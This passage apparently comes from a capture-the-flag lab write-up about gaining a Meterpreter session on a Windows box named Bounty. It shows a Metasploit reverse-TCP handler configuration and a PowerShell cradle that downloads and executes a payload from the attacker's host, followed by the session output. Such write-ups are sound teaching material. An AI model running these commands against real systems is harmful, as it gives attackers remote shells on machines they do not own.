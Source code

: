 The `-f psh` will output a PowerShell command that will initiate a reverse tcp meterpreter shell.

Start `exploit/multi/handler`:

```

msf exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.5       yes       The listen address (an interface may be specified)
   LPORT     445              yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.5:445

```

Now get and run PowerShell launcher from my Nishang shell:

```

PS C:\> iex(new-object net.webclient).downloadstring('http://10.10.14.5/met-445.ps1')
1748

```

And get meterpreter:

```

[*] Sending stage (206403 bytes) to 10.10.10.93
[*] Meterpreter session 1 opened (10.10.14.5:445 -> 10.10.10.93:49198) at 2018-10-26 15:51:15 -0400

meterpreter > getuid
Server username: BOUNTY\merlin

```

Now, I’ll background that and use `use post/multi/recon/local_exploit_suggester`, and see it gives a few options (though not as many as Watson):
